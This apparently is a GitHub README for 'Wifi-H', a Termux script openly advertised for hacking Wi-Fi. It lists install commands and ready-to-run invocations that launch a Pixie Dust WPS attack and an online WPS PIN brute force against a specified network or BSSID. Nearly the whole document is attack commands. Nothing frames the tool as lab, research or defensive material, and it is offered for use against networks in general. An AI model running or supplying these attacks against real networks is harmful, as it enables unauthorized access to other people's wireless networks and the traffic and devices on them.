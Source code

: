 ## Wifi-H
### Hack WIfi Using Termux! (Root Requires)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Monayem-Hossain/Wifi-H
$ cd Wifi-H
$ chmod +x WiFi.py
$ sudo python WiFi.py --help
```

#### Example : `sudo python WiFi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python WiFi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python WiFi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python WiFi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

